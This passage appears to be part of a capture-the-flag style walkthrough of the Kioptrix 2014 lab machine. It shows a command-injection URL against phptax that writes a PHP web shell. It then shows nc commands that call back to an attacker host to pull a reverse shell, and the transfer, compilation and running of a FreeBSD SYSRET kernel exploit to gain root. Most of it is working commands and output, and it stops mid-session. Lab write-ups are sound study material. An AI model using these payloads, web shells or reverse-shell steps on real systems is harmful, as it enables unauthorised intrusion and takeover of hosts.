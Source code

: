 This confirms that we are the www user and that we can execute OS commands as well as write to /tmp.

We can now try and get shell access. I first tried using nc to listen then connect back but it never worked. Using `wget simple-backdoor.php &> /tmp/test.php` results in "wget: not found". So I tried echoing a simple php backdoor script to a file.

{% highlight python %}
echo "<?php echo shell_exec(\$_GET['cmd']); ?>" > backdoor.php
http://192.168.56.102:8080/phptax/drawimage.php?pfilez=xxx;%20echo%20%22%3C?php%20echo%20shell_exec(\$_GET[%27cmd%27]);%20?%3E%22%20%3E%20backdoor.php%20;&pdf=make
{% endhighlight %}

Then using `backdoor.php?cmd=id` we can run commands much easier, however it would be better to have a remote shell. To do this we can use the web shell php-reverse-shell.php on Kali. Note we need to edit it to point to our listening nc service.

Start nc listening for connections on Kali
`nc -lvnp 1122`

Then upload the php-reverse-shell.php
{% highlight python %}
`nc ip port > reverse.php`
:8080/phptax/backdoor.php?cmd=nc%20192.168.56.101%201133%20%3E%20reverse.php
{% endhighlight %}

Now when we go to reverse.php it will connect back to our listening nc service and give us a remote shell.
{% highlight python %}
$ id
uid=80(www) gid=80(www) groups=80(www)
{% endhighlight %}

## Privilege escalation
Now we have a remote shell we need to escalate our privileges from the www user to root. When checking the kernel version and having a quick look online we see that there is an exploit available for 9.0 that should give us root.

{% highlight python %}
$ uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
{% endhighlight %}

[Intel SYSRET Kernel Privilege Escalation exploit](https://www.exploit-db.com/exploits/28718/), to execute the exploit it needs to be compiled on the system so we need to transfer the code over first.

{% highlight python %}
Set nc listening on Kali
nc -lvnp 1122 < exploit.c

Connect to it and redirect the output to a file
nc 192.168.56.101 1122 > exploit.c

Compile and change file permissions to run
gcc explit.c -o exploit
chmod 777 exploit

Run the exploit
$ ./exploit
[+] SYSRET FUCKUP!!
[+] Start Engine...
[+] Crotz...
[+] Crotz...
[+] Crotz...
[+] Woohoo!!!

$ id